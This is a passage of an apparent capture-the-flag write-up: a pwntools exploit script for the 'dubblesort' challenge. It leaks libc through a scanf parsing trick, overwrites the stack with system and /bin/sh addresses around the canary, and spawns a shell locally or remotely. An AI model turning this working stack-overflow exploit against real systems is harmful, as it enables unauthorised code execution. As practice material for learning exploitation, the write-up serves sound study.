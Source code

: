 ```python
    
    libc_leak = recvPointer(p) - ord('A')
    libc_base = libc_leak - LIBC_LEAK_TO_BASE
    log.info(f'libc_leak: {hex(libc_leak)} libc_base: {hex(libc_base)}')
    assert((libc_base & 0xfff) == 0)

    p.recvuntil(b',How many numbers do you what to sort :')
    return libc_base 

def sendNumbers(p, nums, size):
    p.sendline(str(size).encode())
    p.recvuntil(b'Enter the 0 number : ')
    buf = b''
    for num in nums:
        buf += str(num).encode() + b' '
   
    # Critical - printf("%u") fails parsing this character, leaving uninitialized memory, while the character remains within the stdin buffer!
    buf += b'A'  
    p.sendline(buf)

def exploit(p):
    libc_base = get_libc_base(p)
    # This number is larger than the canary, yet smaller than all of libc's addresses
    large_num = libc_base - 0x1000

    # First, fill crap
    libc_bin_sh = libc_base + bin_sh
    libc_system = libc_base + system
    nums = [libc_system] * 7 + [libc_bin_sh] * 9
    nums += [1] * (NUMBERS_SIZE - len(nums))

    sendNumbers(p, nums, len(nums) + 32)


def main():
    if IS_DEBUG:
        # p = gdb.debug([LD, BINARY], env={"LD_PRELOAD": LIBC}, gdbscript=GDB_SCRIPT)
        p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
        # pid = int(process('pgrep -f "./dubblesort"', shell=True).readline()[:-1])
        # p = gdb.attach(pid, gdbscript=GDB_SCRIPT)
    else:
        if IS_REMOTE:
            p = remote(HOST, PORT)
        else:
            p = process([LD, BINARY], env={"LD_PRELOAD": LIBC})

    exploit(p)

    log.info('Win')
    p.interactive()

if __name__ == '__main__':
    main()
```

[glibc-all-in-one]: https://github.com/matrix1001/glibc-all-in-one
